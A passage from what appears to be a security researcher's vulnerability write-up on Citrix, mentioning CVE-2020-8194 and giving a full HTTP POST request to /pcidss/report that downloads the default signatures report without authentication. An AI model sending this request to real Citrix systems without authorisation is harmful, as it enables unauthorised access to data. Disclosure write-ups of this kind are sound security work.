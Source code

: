 I really didn't spend to much time on this one, but Citrix deemed it interesting enough to assign it a CVE: **CVE-2020-8194**.

### Get all default signatures
Not an interesting finding at all, but the report controller allows you to download a report without authenticating by using the following HTTP request:

```http
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![](img/default_signature.png)
